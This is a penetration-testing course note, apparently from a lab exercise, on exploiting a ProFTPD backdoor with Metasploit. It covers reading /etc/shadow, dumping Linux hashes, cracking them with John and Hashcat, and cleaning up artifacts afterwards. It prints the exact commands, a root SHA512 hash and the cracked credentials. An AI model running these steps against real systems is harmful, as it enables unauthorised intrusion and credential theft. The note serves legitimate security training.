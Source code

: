 ### Dumping & cracking Linux hashes

* Linux has multi-user support and as a result, multiple users can access the system simultaneously. This can be seen as both an advantage and disadvantage from a security perspective, in that, multiple accounts offer multiple access vectors for attackers and therefore increase the overall risk of the server.
* All of the information for all accounts on Linux is stored in the file `/etc/passwd`.

```bash
msf6> setg rhosts 192.255.149.3
msf6> use exploit/unix/ftp/proftpd_133c_backdoor
msf6> run
# CTRL+Z
msf6> sessions -u 1
mfs6> sessions 2
meterpreter> cat /etc/shadow
```

<figure><img src="../../.gitbook/assets/131.png" alt=""><figcaption></figcaption></figure>

The root hash is in SHA512.

```
$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.
```

The other method is using MSF post-exploitation module.

```bash
msf6> use post/linux/gather/hashdump
msf6> set session 2
msf6> run
```

**Crack with John**

```bash
kali@kali> gzip -d /usr/share/wordlists/rockyou.txt.gz
kali@kali> john --format=sha512crypt /root/.msf4/loot/20230811072245_default_192.255.149.3_linux.hashes_377820.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Crack with Hashcat**

```bash
kali@kali> hashcat -a 3 -m 1800  /root/.msf4/loot/20230811072245_default_192.255.149.3_linux.hashes_377820.txt /usr/share/wordlists/rockyou.txt
```

The credentials are `root:password`.

### Clearing your tracks

#### Windows

* The exploitation and post-exploitation phases of a penetration test involves actively engaging with target systems and the data that is stored on these systems.
* As a result, you may be required to clear/undo any changes you have made to the target systems you have compromised based on the guidelines specified in the rules of engagment.
* If you have transferred any files to the target systems you have compromised, keep track of chere they have been saved so that you can remove them when done.
* A good practive is to store all your scripts, exploits and binaries in the `C:/Temp` directory on Windows and the `/tmp` directory on Linux.
* It is also important to consider the exploitation framework you are using, an example of this is MSF, which notorious for generating and storing artifacts on the target system when using exploit or post modules.
* Some well designed MSF modules provide you with instructions and resource scripts that provide you with information regarding where the artifacts are stored and how they can be removed.